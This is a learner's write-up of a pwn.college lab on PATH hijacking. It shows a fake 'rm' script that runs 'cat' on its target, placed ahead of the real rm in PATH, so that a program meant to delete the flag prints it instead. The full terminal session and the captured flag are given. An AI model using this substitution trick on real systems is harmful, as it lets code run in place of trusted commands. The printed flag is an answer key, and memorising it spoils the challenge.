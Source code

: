 ### New Learning
How to add a new command aswell as keeping the old commands and how to set PATH variable for it.

### Resources
https://youtu.be/hk0RwVC6uts?si=y5bj9MS5j5Lq-taF

## Hijacking Commands 
Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?


### Solve
**Flag: pwn.college{M70xm7vUKBumOQdaw0ULWJhyV4m.QX3cjM1wyNwAzNzEzW}**

```bash
hacker@path~hijacking-commands:~$ nano ~/rm
  GNU nano 8.4                                               /home/hacker/rm                                                            #!/bin/bash

  cat "$2"
hacker@path~hijacking-commands:~$ chmod +x ~/rm
hacker@path~hijacking-commands:~$ PATH="$HOME:$PATH"
hacker@path~hijacking-commands:~$  /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{M70xm7vUKBumOQdaw0ULWJhyV4m.QX3cjM1wyNwAzNzEzW}
```
The plan was to replace the rm command from deleting the flag to catting the flag entirely, so first I ran nano ~/rm to write the shell script of the new ~/rm in the home directory, in that I ran cat "$2" because $1 was -f (Since the program was running rm -f /flag), so then I added executable permissions to the file and then set the PATH variable to $HOME(home directory and its commands) and $PATH(the old original PATH variable commands) so when it runs /challenge/run it executes, cat /flag before deletion and prints out the flag. 

### New Learning
How to hijack over certain commands.

